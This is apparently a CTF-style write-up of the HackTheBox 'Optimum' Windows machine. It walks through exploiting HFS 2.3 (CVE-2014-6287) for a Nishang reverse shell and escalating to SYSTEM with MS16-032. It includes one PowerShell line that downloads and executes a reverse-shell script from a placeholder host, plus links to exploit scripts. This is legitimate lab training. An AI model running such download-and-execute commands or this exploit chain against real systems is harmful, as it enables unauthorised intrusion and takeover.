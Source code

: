 ```yaml
---
layout: single
title: HackTheBox - Optimum Writeup
permalink: /hackthebox-optimum-writeup/
excerpt: "Optimum is an easy box from HacktheBox. This machine offers a lot of opportunities to learn a bunch of exploits since this is an old machine. It's start by exploiting the HttpFileServer to gain the initial foothold. On top of that, it teaches me the importance of understanding architecture. Even though, the machine is 64-bit but it certainly can run the 32-bit version of powershell executable."
classes: wide
header:
  teaser: "/assets/images/htb/optimum/Optimum.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
  - writeup
tags:
  - reverse-powershell
  - rce
  - CVE-2014-6287
  - CVE-2016-0099
  - MS16-032
  - httpfileserver
  - empire-project
  - windows-sysnative
---
```



![1](/assets/images/htb/optimum/Optimum.png)

### <font color="#9bffc8">Nmap</font>
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

### <font color="#9bffc8">HFS (HttpFileServer)</font>

> HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files.
> It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
> _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![1](/assets/images/htb/optimum/hfs-main-page.png)

### <font color="#9bffc8">CVE-2014-6287</font>
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

> CVE description:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### <font color="#9bffc8">Burpsuite</font>
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![1](/assets/images/htb/optimum/burpsuite-search-ping.png)

![1](/assets/images/htb/optimum/tcpdump-ping-tun0.png)

### <font color="#9bffc8">Nishang: Invoke-PowerShellTcp.ps1</font>

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/hackthebox-responder-writeup/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/hackthebox-responder-writeup/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![1](/assets/images/htb/optimum/python3-server-and-nc-listening.png)

![1](/assets/images/htb/optimum/burpsuite-with-powershell-reverse-shell.png)

![1](/assets/images/htb/optimum/nc-catch-the-shell.png)

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![1](/assets/images/htb/optimum/run-the-systeminfo-command.png)

### <font color="#9bffc8">MS16-032 : CVE-2016-0099</font>

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### <font color="9bffc8">EmpireProject: Invoke-MS16032.ps1</font>

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

> Empire is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. <br>
> _resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![1](/assets/images/htb/optimum/download-ms16032-wget.png)

![1](/assets/images/htb/optimum/edit-the-exploit-file-ms16032.png)

![1](/assets/images/htb/optimum/put-at-the-last-line.png)

### <font color="#9bffc8">Windows: sysnative</font>

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![1](/assets/images/htb/optimum/example-tested-exploit.png)

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-32-bit.png)

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-64-bit.png)

### <font color="#9bffc8">Windows: Privilege Escalation</font>

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![1](/assets/images/htb/optimum/last-image.png)